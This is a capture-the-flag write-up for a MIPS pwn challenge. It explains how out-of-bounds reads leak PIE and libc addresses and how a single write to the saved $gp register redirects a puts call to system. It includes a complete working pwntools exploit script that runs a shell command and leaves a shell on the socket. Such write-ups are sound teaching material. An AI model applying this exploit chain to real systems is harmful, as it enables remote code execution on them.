

| Item | Value |
|---|---|
| Service | `nc <ip> <port>` |
| Architecture | MIPS32r2, little-endian (`mipsel`), o32 ABI, PIE |
| Files | `meeeps`, `libc.so.6`, `ld.so.1`, `serve.sh`, `Dockerfile.dist`, `docker-compose.yml`, `flag.txt` (local test flag) |

The challenge blurb is *"I like learning new arches. Suffering ends in 15 minutes."* The service name in `docker-compose.yml` is `pwn-gp_slide` and the banner is `== gpslide ==`, so the MIPS `$gp` register is the intended centrepiece.

The binary is served through `socat` inside a chroot (`chroot /target /socat ... exec:"/qemu /bin/su ctf -c 'cd /ctf && /qemu ./meeeps'"`), so every connection gets a fresh process, and the working directory is `/ctf`.

## TL;DR

1. `file`/`readelf` show a little-endian MIPS32 PIE. `objdump` cannot disassemble MIPS here, so Capstone does the reversing.
2. Every function computes `$gp = PIE_base + 0x28010`. Every call is a gp-relative GOT load followed by `jalr`.
3. Menu option **1 (`read`)** prints `table[idx]` with no bounds check → `printf("%p\n", table[idx])` reads a dword at `table + idx*4` for any signed 32-bit `idx`. The shift is truncated to 32 bits, so the address wraps and any 4-byte-aligned address is reachable relative to `table`.
4. Menu option **3 (`go`)** writes one dword to `fp + 0x24 + idx*4` with no bounds check; `idx = -5` overwrites the saved `$gp` at `fp+0x10`.
5. `read idx = -32` leaks `&table` (PIE base). `read idx = -13` leaks `printf` (libc base). `store` puts `&system` into `table[0]`.
6. `go idx = -5` overwrites the saved `$gp` with `&table + 0x7f94`, so the next GOT load reads `table[0]` instead of `GOT[puts]` and the call that should have been `puts(name)` becomes `system(name)`.
7. `name` was set to `cat flag.txt ...; sh`, so the flag is printed and a shell is left on the socket.

## Attack Chain



The flow is linear, matching the executed exploit. The libc page-offset check and the `store` bounds check passed on every run, so the chain has no branches.

## Reconnaissance

### Architecture and layout

```bash
file meeeps
readelf -h meeeps
readelf -lW meeeps
readelf -dW meeeps
readelf -sW meeeps
```

Key facts from those commands:

- `ELF 32-bit LSB pie executable, MIPS, MIPS32 rel2`, `little endian`, flags `noreorder, pic, cpic, o32, mips32r2`.
- Not stripped, and it carries debug info, so `.symtab` gives `setup`, `readnum`, `process`, `main` and the data object `table`.
- `DT_MIPS_LOCAL_GOTNO = 14`, `MIPS_GOTSYM = 0xa`, `BIND_NOW`, `PIE`.

`objdump` from this environment refused the file:

```
objdump: can't disassemble for architecture UNKNOWN!
```

so the reversing was done with Capstone (`CS_ARCH_MIPS`, `CS_MODE_MIPS32 + CS_MODE_LITTLE_ENDIAN`). The helper is in the appendix.

### Protections

```bash
readelf -lW meeeps | grep -A1 GNU_RELRO
```

```
GNU_RELRO     0x00fff8 0x0001fff8 0x0001fff8 0x00008 0x00008 R   0x1
```

`GNU_RELRO` covers only 8 bytes (`.init_array`/`.fini_array`), so the page holding `.got` (`0x20000..0x21000`) stays writable. pwntools prints `RELRO: Full RELRO` because the binary is also `BIND_NOW`; that summary is misleading here.

`NX` is enabled and `.got` writability is noted, but the final exploit uses neither a GOT write nor shellcode. It only needs one stack write and one table write.

The stack canary is compiled in, but the recorded build flags also contain `-fno-stack-protector`, so no canary check is expected. This was not exercised.

### The menu

`strings` plus the `.rodata` dump give the prompts:

```
name:
== gpslide ==
1. read
2. store
3. go
i:
v:
done
%p\n
```

The format string at `0x1048` is `%p\n`, **not** `%d\n`. That detail matters: option `read` leaks a pointer, which is what makes the address leaks possible.

### Reconstructed program logic

`process()` reads a 63-byte name into a 64-byte buffer, prints the menu, and loops. Reading the disassembly gives:

```c
char name[64];                              /* at fp+0x64, zeroed then read */
memset(name, 0, 64);
write(1, "name: ", 6);
read(0, name, 63);                          /* name is not the bug, but it is the payload */
write(1, "== gpslide ==\n1. read\n2. store\n3. go\n", 25);

for (;;) {
    int c = readnum();                      /* read(0, buf, 31) + strtol(buf, NULL, 0) */
    if (c == 1) {                           /* read */
        write(1, "i: ", 3);
        int i = readnum();
        printf("%p\n", table[i]);           /* VULN A: no bounds check on i */
    } else if (c == 2) {                    /* store */
        write(1, "i: ", 3);
        int i = readnum();
        if (i >= 0 && i < 64) {             /* bounded: 0 <= i < 64 */
            write(1, "v: ", 3);
            table[i] = readnum();
        }
    } else if (c == 3) {                    /* go */
        write(1, "i: ", 3);
        int i = readnum();
        write(1, "v: ", 3);
        int v = readnum();
        *(int *)(fp + 0x24 + i * 4) = v;    /* VULN B: no bounds check on i */
        puts("done");
        puts(name);                         /* this is where $gp gets reloaded */
        exit(0);                            /* never returns */
    }
}
```

`readnum()` clears a 32-byte buffer, reads at most 31 bytes, and returns `strtol(buf, NULL, 0)`. A zero-length read (EOF) exits the process.

### The two weaknesses

| Handler | Weakness | What it gives |
|---|---|---|
| `read` | `table[i]` with no check on `i` | 4-byte read at `&table + i*4`, printed as a pointer |
| `store` | Bounds-checked to `0..63` | A safe, controlled 64-dword array |
| `go` | `*(fp + 0x24 + i*4) = v` with no check on `i` | **One** 4-byte write relative to the frame, then `exit(0)` |

Two properties shape the whole exploit:

- `go` runs once and then exits, so the single write must leave the process in a working state on its way out.
- Both indices are signed 32-bit values, and the address arithmetic wraps, so negative indices reach memory *below* `table` and below `fp`. The `.got` sits below `table`; the saved `$gp` sits below the frame.

### Why `$gp` matters on MIPS

Every function opens with the standard PIC prologue:

```asm
lui   $gp, 2
addiu $gp, $gp, 0x74e0      ; the immediate differs per function
addu  $gp, $gp, $t9         ; $t9 = the function's own entry address
```

Evaluating that for `setup`, `main`, `readnum` and `process` gives the same result for all four: `$gp = PIE_base + 0x28010`.
Library calls are then made by loading a function pointer from a `$gp`-relative slot and calling it:

```asm
lw   $v0, -0x7f94($gp)      ; GOT[puts]
move $t9, $v0
jalr $t9
```

That is the whole trick behind "gp slide": the load offset is fixed, but the base is a register we get to corrupt. Move `$gp`, and the program reads its function pointers from somewhere else.

## Address Reference

All offsets are relative to the PIE base unless stated otherwise. The `table`-relative index is `(address - 0x200c0) / 4`, which is exactly what the `read` handler takes.

| Slot | PIE + | `table` index | Notes |
|---|---|---|---|
| `table` (64 dwords) | `0x200c0` | `0` | target of the bounded `store` |
| GOT word holding `&table` | `0x20040` | `-32` | leaks the PIE base |
| `GOT[strtol]` | `0x20058` | `-26` | libc leak, used for validation |
| `GOT[exit]` | `0x20074` | `-19` | libc leak, used for validation |
| `GOT[puts]` | `0x2007c` | `-17` | the slot the exploit redirects |
| `GOT[printf]` | `0x2008c` | `-13` | leaks the libc base |
| `GOT[read]` | `0x20094` | `-11` | libc leak, used for validation |
| `$gp` spill in `process`'s frame | `fp + 0x10` | `-5` | the one-shot write target |
| `name` buffer | `fp + 0x64` | `+16` | not written by the exploit |

Offsets inside the shipped `libc.so.6` (which matches the remote):

| Symbol | Offset | | Symbol | Offset |
|---|---|---|---|---|
| `printf` | `0x537f0` | | `puts` | `0x78930` |
| `system` | `0x4eb28` | | `exit` | `0x3d308` |
| `read` | `0x111f20` | | `strtol` | `0x4c114` |

The local GOT word at `0x20040` holds `0x200c0` in the file; after loading, the loader has added the load bias, and the runtime value is `PIE_base + 0x200c0`. The remote leak confirmed both the bias and the `0xc0` page offset.

## Exploitation

Everything below was executed against the remote service. Before the final write, all steps are reads, so they can be repeated freely.

### Step 1 — Leak the PIE base

```python
tbl = cmd_read(io, -32)              # GOT word holding &table
pie_base = tbl - 0x200c0
```

Remote result: `&table = 0x00d800c0`, so `PIE_base = 0x00d60000`.

Two sanity checks confirm this is not a coincidence:

- The page offset of the leak is `0xc0`, which is `table`'s offset in the image.
- The neighbouring GOT word at index `-38` holds `main`; the reading `main - pie_base = 0xe74` matches the `main` symbol exactly.

### Step 2 — Leak the libc base

```python
pr = cmd_read(io, -13)               # GOT[printf]
libc_base = pr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
```

Remote result: `printf = 0x015e37f0`. Its page offset is `0x7f0`, which is `printf`'s offset in the shipped libc, so `libc_base = 0x01590000`.

Cross-checks: `puts` (`0x930`), `exit` (`0x308`), `read` (`0xf20`) and `strtol` (`0x114`) leaks were all read too, and all five give the same `libc_base`. Page offsets identify each pointer without any guesswork, which is what makes the leak trustworthy before committing to the final write.

### Step 3 — Plant `&system` in `table`

`store` writes inside the checked range, so `table[0]` is a legal target:

```python
cmd_store(io, 0, s32(system_addr))   # table[0] = &system
```

`table[0]` now holds a function pointer, and its address (`&table`) is known.

### Step 4 — Slide `$gp` with the single write

`go` writes at `fp + 0x24 + i*4`. With `i = -5` that is `fp + 0x10`, the slot where `process()` saved `$gp` on entry. No stack address is needed, because the index is frame-relative — this is why the exploit never has to leak the stack.

After the write, execution continues through:

```asm
sw    $v1, -0x84($v0)     ; the write itself: fp+0x24 + i*4
lw    $v0, -0x7fd8($gp)   ; v0 = image base      (register $gp still valid)
addiu $a0, $v0, 0x1050    ; a0 = "done"
lw    $v0, -0x7f94($gp)   ; v0 = GOT[puts]
move  $t9, $v0
jalr  $t9                 ; puts("done")
lw    $gp, 0x10($fp)      ; $gp reloaded from the slot we overwrote
addiu $v0, $fp, 0x64      ; v0 = name
move  $a0, $v0            ; a0 = name
lw    $v0, -0x7f94($gp)   ; v0 = *(gp - 0x7f94)  ->  normally GOT[puts]
move  $t9, $v0
jalr  $t9                 ; call it with a0 = name
```

`-0x7f94($gp)` is normally `GOT[puts]` (`0x28010 - 0x7f94 = 0x2007c`), so the intended behaviour is `puts(name)`. Setting the reloaded value to `&table + 0x7f94` moves that load to `&table`, and `table[0]` is `&system`:

```python
cmd_go(io, -5, s32(tbl + 0x7f94))    # $gp' = &table + 0x7f94  ->  call becomes system(name)
```

Two details make this work:

- `puts("done")` runs **before** the reload, so it still uses the correct `$gp` and prints normally.
- The reload is a memory read from `fp+0x10`, so the value we wrote there only takes effect at that point — after the first call has already completed safely.

### Step 5 — Run the command

`a0` points at the `name` buffer, which was filled at the very start of the connection:

```
cat flag.txt /ctf/flag.txt /flag.txt 2>/dev/null; sh
```

`system()` executes it through `/bin/sh -c`, so the flag is printed and then an interactive shell remains on the socket. Listing the same file twice is deliberate: it survives the flag living at either `flag.txt` (the working directory, `/ctf`) or `/ctf/flag.txt`.

### Interaction rules

The menu protocol has to be respected, otherwise values bleed into the wrong `readnum()` call:

- Wait for each prompt (`name: `, `i: `, `v: `, and the menu) before sending the next value, because `read()` consumes whatever bytes are already buffered.
- Send indices and values as plain decimal. They go through `strtol(..., 0)`, so `0x` prefixes and a leading `-` are also accepted.
- `strtol` saturates at `LONG_MAX` for oversized values, so the helper converts any value `>= 0x80000000` to its negative decimal equivalent. Every address seen in this session was below that threshold, so that path never triggered.

## Exploit Script

Two files were used: `chal.py` for offsets and helpers, `exploit.py` for the attack. `ppwn.py` wraps pwntools and disables the MIPS PLT emulation that crashed while parsing this binary. Paths are parameterised for publication; the logic is what ran against the remote.

`ppwn.py`:

```python
# Disables Unicorn-based PLT emulation: it segfaults on this mipsel binary,
# and the exploit does not need it (the GOT leaks are read at runtime instead).
import pwnlib.elf.plt as _plt
_plt.emulate_plt_instructions = lambda *a, **k: {}
import pwnlib.elf.elf as _elf
_elf.emulate_plt_instructions = _plt.emulate_plt_instructions
from pwn import *
```

`chal.py`:

```python
import sys, time
sys.path.insert(0, '.')
import ppwn
from ppwn import *

BIN = './pwn-meeeps/'                  # directory holding meeeps and libc.so.6
exe  = ELF(BIN + 'meeeps', checksec=False)
libc = ELF(BIN + 'libc.so.6', checksec=False)

HOST, PORT = '<ip>', int('<port>')

TABLE_OFF = 0x200c0                    # table[] lives at PIE_base + 0x200c0
GP_OFF    = 0x28010                    # $gp = PIE_base + 0x28010

IDX_TABLE  = (0x20040 - TABLE_OFF)//4  # -32 : GOT word holding &table
IDX_PRINTF = (0x2008c - TABLE_OFF)//4  # -13 : GOT[printf]
IDX_PUTS   = (0x2007c - TABLE_OFF)//4  # -17
IDX_EXIT   = (0x20074 - TABLE_OFF)//4  # -19
IDX_READ   = (0x20094 - TABLE_OFF)//4  # -11
IDX_STRTOL = (0x20058 - TABLE_OFF)//4  # -26
IDX_MAIN   = (0x20028 - TABLE_OFF)//4  # -38 : GOT word holding main
IDX_GP_SPILL = -5                      # fp + 0x10 : saved $gp of process()

def conn(local=False):
    if local:
        return process([exe.path])     # kept for reference; no local emulator was available
    return remote(HOST, PORT)

def sendnum(io, n):
    io.send(b'%d\n' % n)

def cmd_read(io, idx):
    io.send(b'1\n'); io.recvuntil(b'i: ')
    sendnum(io, idx)
    line = io.recvline().strip()
    if line == b'(nil)':               # printf("%p") prints "(nil)" for 0
        return 0
    return int(line, 16)

def cmd_store(io, idx, val):
    io.send(b'2\n'); io.recvuntil(b'i: ')
    sendnum(io, idx); io.recvuntil(b'v: ')
    sendnum(io, val)

def cmd_go(io, idx, val):
    io.send(b'3\n'); io.recvuntil(b'i: ')
    sendnum(io, idx); io.recvuntil(b'v: ')
    sendnum(io, val)

def u32(x): return x & 0xffffffff

def s32(x):
    x = u32(x)
    return x if x < 0x80000000 else x - 0x100000000
```

`exploit.py`:

```python
from chal import *

NAME = b'cat flag.txt /ctf/flag.txt /flag.txt 2>/dev/null; sh'   # run by system()

io = conn()

# --- the name buffer is our command; it is written before the leaks are known
io.recvuntil(b'name: ')
io.send(NAME)
io.recvuntil(b'3. go\n')

# --- Step 1: PIE base from the local GOT word that holds &table
tbl = cmd_read(io, IDX_TABLE)
print('[*] &table    = 0x%08x' % tbl)
assert tbl & 0xfff == 0xc0, 'GOT table entry mismatch'
pie_base = tbl - TABLE_OFF

# --- Step 2: libc base from GOT[printf]
pr = cmd_read(io, IDX_PRINTF)
print('[*] printf    = 0x%08x' % pr)
libc_base = pr - libc.symbols['printf']
assert libc_base & 0xfff == 0

system_addr = libc_base + libc.symbols['system']
print('[*] pie_base  = 0x%08x' % pie_base)
print('[*] libc_base = 0x%08x' % libc_base)
print('[*] &system   = 0x%08x' % system_addr)

# --- Step 3: table[0] = &system (bounded store)
cmd_store(io, 0, s32(system_addr))
print('[*] stored &system into table[0]')

# --- Step 4: slide $gp so the puts(name) load reads table[0] instead of GOT[puts]
gp_slide = u32(tbl + 0x7f94)
cmd_go(io, IDX_GP_SPILL, s32(gp_slide))
print('[*] gp slide -> 0x%08x' % gp_slide)

# --- Step 5: system(name) fires; the shell keeps the socket
io.recvuntil(b'done\n', timeout=10)
time.sleep(0.4)
io.sendline(b'cat flag.txt')
time.sleep(2.0)
print('=== OUTPUT ===')
print(io.recvrepeat(3).decode('latin1', 'replace'))
io.close()
```

Run with `python3 exploit.py`.

### Output of one run

```
[*] &table    = 0x002f00c0
[*] printf    = 0x00bd37f0
[*] pie_base  = 0x002d0000
[*] libc_base = 0x00b80000
[*] &system   = 0x00bceb28
[*] stored &system into table[0]
[*] gp slide -> 0x002f8054
```

Then the socket returned the flag. Addresses differ on every run because ASLR randomises both the PIE and libc mappings.

For a glibc heap target instead of MIPS, [hoe-ap](/generated/writeups/Digital-Pakistan-Red-Team-CTF/hoe-ap.html) abuses a custom allocator in a handle-only pool.

## Flag

The shell command `cat flag.txt` printed the file, and the shell's `${#c}` confirmed the length:

```
LEN=111
[pwn{m1p5_1s_34s13r_th4n_y0u_7h1nK_[A-Za-z0-9]{61794652441MpRubRMB93711fc9e7814233ce139e517d7f0c15db5db331_523}}]
```

111 characters plus a trailing newline is 112 bytes, which matches `ls -la` on the remote file. The flag was identical across three separate connections.

**Flag:** `pwn{m1p5_1s_34s13r_th4n_y0u_7h1nK_[A-Za-z0-9]{61794652441MpRubRMB93711fc9e7814233ce139e517d7f0c15db5db331_523}}`

The flag contains a literal `[A-Za-z0-9]{...}` segment and ends in `}}`. The sibling challenge `helios` produces flags with the same literal pattern, so it appears to be the platform's format, but I have not confirmed that against the checker.

## Key Takeaways

- **Bounds checks must cover both directions.** Both bugs are "missing upper/lower check on a signed index". A negative index is not a rejection case to think about later — it is an address that wraps and lands somewhere useful.
- **`$gp` is a data pointer on MIPS.** PIC code reaches the GOT through that register, so controlling it decides which function pointers get loaded; the copy saved on the stack was the cheapest way in.
- **Frame-relative writes need no leak.** The one-shot `go` write targeted `fp + 0x10`, so the exploit never needed a stack address.
- **A parser plus a pointer printer is a read primitive.** `printf("%p\n", table[i])` with an unchecked `i` turned into arbitrary-ish reads, and page offsets of known symbols made the leaks self-validating.
- **Trust the segment table, not the tool summary.** `GNU_RELRO` covering 8 bytes means `.got` is writable; pwntools' "Full RELRO" was wrong for this file. (The exploit did not need the writable GOT, but the label would have sent a reader down the wrong path.)
- **MIPS reversing on a machine without MIPS binutils is fine.** Capstone in a short Python script substitutes for `objdump`; the debug info in an unstripped binary supplies the names.

## Verification

- Verified against the remote: the PIE and libc leaks (with cross-checks against five GOT slots), the bounded `store` of `&system`, the one-shot `go` write of the new `$gp`, and the `system(name)` call that printed the flag.
- Not verified: a local `qemu-mipsel` reproduction. No emulator was installed and there was no root to install one, so every result here comes from the live service.
- Not verified: values `>= 0x80000000`. The helper encodes them as negative decimals, but no address in this session needed that path.
- Environment quirks: `wc`, `od` and `md5sum` in the target chroot fail with `Exec format error`, so byte counts came from `${#c}`; the command's `2>/dev/null` also leaks `cannot create /dev/null: Permission denied` because the chroot has no writable `/dev/null`.
- Timing: each connection has `alarm(60)`, and a full run takes about 9 seconds.

## Appendix — MIPS Disassembly Helper

A compact Capstone-based disassembler, used because `objdump` cannot handle MIPS here. It prints symbol headers, so it is easy to see which function you are in.

```python
import sys
from capstone import Cs, CS_ARCH_MIPS, CS_MODE_MIPS32, CS_MODE_LITTLE_ENDIAN, CS_OP_IMM
from elftools.elf.elffile import ELFFile

path  = sys.argv[1]
start = int(sys.argv[2], 16) if len(sys.argv) > 2 else None   # optional range
stop  = int(sys.argv[3], 16) if len(sys.argv) > 3 else None

f = ELFFile(open(path, 'rb'))

syms = {}
for sec in f.iter_sections():
    if sec.name in ('.symtab', '.dynsym'):
        for s in sec.iter_symbols():
            if s.name and s['st_value']:
                syms.setdefault(s['st_value'], s.name)

text = f.get_section_by_name('.text')
code, base = text.data(), text['sh_addr']

md = Cs(CS_ARCH_MIPS, CS_MODE_MIPS32 + CS_MODE_LITTLE_ENDIAN)

lo = start if start is not None else base
hi = stop  if stop  is not None else base + len(code)

for ins in md.disasm(code, base):
    if not (lo <= ins.address < hi):
        continue
    if ins.address in syms:
        print('\n%08x %s:' % (ins.address, syms[ins.address]))
    note = ''
    for op in ins.operands:
        if op.type == CS_OP_IMM and op.imm in syms:
            note = '   ;<%s>' % syms[op.imm]
    print('  %08x:  %-8s %s%s' % (ins.address, ins.mnemonic, ins.op_str, note))
```

Usage: `python3 mipsdis.py meeeps 0x960 0xf10` walks `setup` through `process`.
